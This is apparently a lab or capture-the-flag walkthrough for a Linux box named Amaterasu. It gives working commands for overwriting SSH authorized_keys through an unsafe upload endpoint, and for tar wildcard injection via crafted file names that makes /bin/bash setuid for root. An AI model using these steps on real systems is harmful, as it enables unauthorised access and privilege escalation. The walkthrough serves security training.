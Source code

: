 # 🏴 Amaterasu (Linux)

## 🧠 Initial Foothold

- Discovered an HTTP service on port 33414.

- Ran `dirb` and found an `/info` endpoint that accepted POST requests with file uploads.

- Used this endpoint to upload a public SSH key and overwrite the `authorized_keys` file for the `alfredo` user:
  ```bash
  curl -i -X POST "http://192.168.163.249:33414/file-upload" -F "file=@authorized_keys.txt" -F "filename=/home/alfredo/.ssh/authorized_keys"
  ```

- Successfully gained SSH access as `alfredo`.

---

## 🚀 Privilege Escalation

- Executed `pspy32s` and `linpeas.sh` for process and privilege escalation enumeration.

- Found a cron job running every minute as root:
  ```cron
  * * * * * root /usr/bin/local/mysql-db-backup.sh
  ```

- Inspected the script:
  ```bash
  #!/bin/bash
  cd /home/alfredo/restapi/
  tar czf /tmp/dbbackup.tar.gz *
  ```

- Abused the tar wildcard injection vulnerability by creating malicious files in the restapi directory:
  ```bash
  echo "#!/bin/bash" > priv.sh
  echo "chmod +s /bin/bash" >> priv.sh
  chmod +x priv.sh
  touch -- '--checkpoint=1'
  touch -- '--checkpoint-action=exec=sh priv.sh'
  ```

- Waited for the cron job to execute.

- Obtained a root shell with:
  ```bash
  /bin/bash -p
  id && whoami
  ```

---

🧼 **Post-Exploitation Note:**  
Revert sticky-bit shell if left behind and disable cron persistence if applicable.

> ⚠️ This walkthrough is for educational purposes only.
